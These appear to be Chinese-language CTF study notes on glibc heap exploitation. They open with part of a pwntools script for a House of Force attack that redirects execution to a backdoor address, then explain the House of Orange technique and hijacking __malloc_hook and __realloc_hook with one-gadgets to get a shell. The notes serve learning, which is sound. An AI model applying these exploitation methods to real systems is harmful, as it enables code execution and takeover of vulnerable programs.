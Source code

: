 ```python
	p.send(content)

def show_heap():
	choose(1)

def delete_heap(idx):
	choose(4)
	p.recvuntil(b'index:')
	p.sendline(str(idx))

def exit():
	choose(5)

elf = ELF(elf_path)
libc = ELF(libc_path)[[#C++下的堆]]
backdoors = 0x400d7f

create_heap(0x20, b'aaaa')
edit_heap(0, 0x30, b'a'*0x28 + p64(0xffffffffffffffff))
create_heap(-0x50 - 0x8, b'bbbb')
create_heap(0x10, p64(backdoors) * 2)
exit()

p.interactive()
```

### House of Apple
https://bbs.kanxue.com/thread-273418.htm
### House of Orange
 libc2.23->libc2.26
在题目中没用free类型的操作时利用。House of orange 核心就是通过漏洞利用获得free的效果。
具体利用方法，改小 top chunk 的值，然后再申请一个大于该值的堆块，
如下图
![[Pasted image 20250531111354.png]]
![[Pasted image 20250531111401.png]]
原先的 top chunk 是0x20ee1,现在将他修改为0xee1，
**这里修改的大小要注意伪造的size要对齐到内存页，简单来说和原本 size 的后三位一样即可。**
然后我们申请一个 0xf00大小的 chunk
![[Pasted image 20250531111707.png]]
可以看到原先 top chunk 的位置已经成为了一个 unsorted bin ，然后再申请一个小于这个 size 的 chunk 即可切割这个 unsorted bin
![[Pasted image 20250531112113.png]]
可以看到切割下来的 chunk 里可以泄漏出libc基址和heap的基址，之后的内容就需要结合IOFile来做。
## Hook
### realloc_hook
 `__realloc_hook` 和`__malloc_hook`一样，在不为空时会跳转执行 hook 中的函数。
realloc 在库中的作用是重新调整 malloc 和 calloc 所分配的堆大小
![[Pasted image 20250505102515.png]]
![[Pasted image 20250505102543.png]]
标记处就是将rax设置为`__realloc_hook`的值然后跳转到`__realloc_hook`。
`__realloc_hook` 一般的作用就是调整栈帧，一般劫持`__malloc_hook`为 ogg 时不一定就刚好符合条件，这时候可以将`__malloc_hook`设置为 realloc，`__realloc_hook`设置为ogg，慢慢调 realloc 的偏移可以调整栈帧来满足 ogg 的条件。
### malloc_hook (2.34之前）
`__malloc_hook` 相当于给 malloc 函数套了一层外壳，在其不为空的时候在调用 malloc 时会知道hook所指向的函数，一般可以劫持 `__malloc_hook`为 ogg 来 get shell。
在`__malloc_hook - 0x23`的位置一般可以利用 double free 来劫持 `__malloc_hook` 。